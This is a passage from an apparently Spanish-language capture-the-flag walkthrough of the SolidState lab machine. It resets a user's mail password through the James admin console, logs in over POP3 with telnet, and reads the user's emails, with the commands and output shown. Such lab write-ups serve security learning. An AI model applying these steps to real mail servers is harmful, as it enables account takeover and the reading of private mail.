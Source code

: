 ```bash
setpassword mindy mindy123
Password for mindy reset
```

Ahora con esto, podemos ingresar al servicio POP3 por el puerto 110 como el usuario `mindy`:

```bash
❯ telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
USER mindy
+OK
PASS mindy123
+OK Welcome mindy
```

Ya nos encontramos como el usuario `mindy` dentro dle servicio POP3, ahora con el comando `LIST` podemos ver los correos del usuario y con `RETR [id]` podemos ver el contenido de los mismos:

```bash
LIST
+OK 2 1945
1 1109
2 836
RETR 1                         
+OK Message follows          
Return-Path: <mailadmin@localhost>              
Message-ID: <5420213.0.1503422039826.JavaMail.root@solidstate>                                                                   
MIME-Version: 1.0                                               
Content-Type: text/plain; charset=us-ascii     
Content-Transfer-Encoding: 7bit                                 
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])                
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 798                                                               
          for <mindy@localhost>;                                
          Tue, 22 Aug 2017 13:13:42 -0400 (EDT)                 
Date: Tue, 22 Aug 2017 13:13:42 -0400 (EDT)                     
From: mailadmin@localhost                                                                                                        
Subject: Welcome                                                                                                                 

Dear Mindy,    
Welcome to Solid State Security Cyber team! We are delighted you are joining us as a junior defense analyst. Your role is critica
l in fulfilling the mission of our orginzation. The enclosed information is designed to serve as an introduction to Cyber Securit
y and provide resources that will help you make a smooth transition into your new role. The Cyber team is here to support your tr
ansition so, please know that you can call on any of us to assist you.                                                           

We are looking forward to you joining our team and your success at Solid State Security. 

Respectfully,
James
.
RETR 2  
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
```